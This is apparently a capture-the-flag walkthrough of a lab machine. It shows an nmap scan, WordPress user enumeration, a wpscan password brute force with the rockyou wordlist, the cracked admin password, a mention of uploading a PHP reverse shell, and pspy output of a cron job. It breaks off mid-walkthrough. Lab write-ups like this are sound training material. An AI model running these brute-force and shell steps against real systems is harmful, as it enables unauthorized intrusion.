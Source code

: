After finishing the machine, the main part of this machine is the privialge escilation.

root@kali ~# nmap -sS -A -T4 -p- 10.0.0.8

PORT   STATE SERVICE VERSION                                                                              
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                       
| ssh-hostkey:                                                                                            
|   2048 0d:4e:fd:57:05:8f:d0:d6:1d:67:5d:6d:4e:b5:c9:fc (RSA)                                            
|   256 d4:98:fb:a7:94:bd:0c:c6:a8:60:5b:bc:b9:c7:f4:51 (ECDSA)                                           
|_  256 fa:34:3a:25:74:40:99:fc:4f:60:be:db:7e:7f:93:be (ED25519)                                         
80/tcp open  http    Apache httpd 2.4.38                                                                  
|_http-title: Index of /                                                                                  
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-02-06 07:33  wordpress/
|_
|_http-server-header: Apache/2.4.38 (Debian)

Firing up NMAP we see 2 open ports, 22 and 80. We can see that HTTP has a wordpress folder.

root@kali ~# wpscan -e u --url http://10.0.0.8/wordpress

The scan found a username: admin, we can now user "Wpscan" to brute force the login using our username. 

root@kali ~# wpscan -U 'admin' -P /usr/share/wordlists/rockyou.txt --url http://10.0.0.8/wordpress

And we found the password!

Username: admin, Password: phantom

After login in we can upload a php reverse shell and connect to the machine.
Going to the "home" folder we see 3 users.

baby
father
mother

I tried to find SUID files to exploit but found nothing. I uploaded a tool named "pspy64" to see running proccess and try to see if there any cron tabs.

2022/01/26 18:49:01 CMD: UID=0    PID=1002   | /usr/sbin/CRON -f 
2022/01/26 18:49:01 CMD: UID=0    PID=1003   | /usr/sbin/CRON -f 
2022/01/26 18:49:01 CMD: UID=1001 PID=1004   | /bin/sh -c python ~/check.py

There was one proccess that was running every minute. "check.py" is running by the "mother" use every minute, we currently don't have access to go to mother directory as the www-data, let's try getting a higher level user.

I searched for files owened by the user "baby" or "father" and found this file.
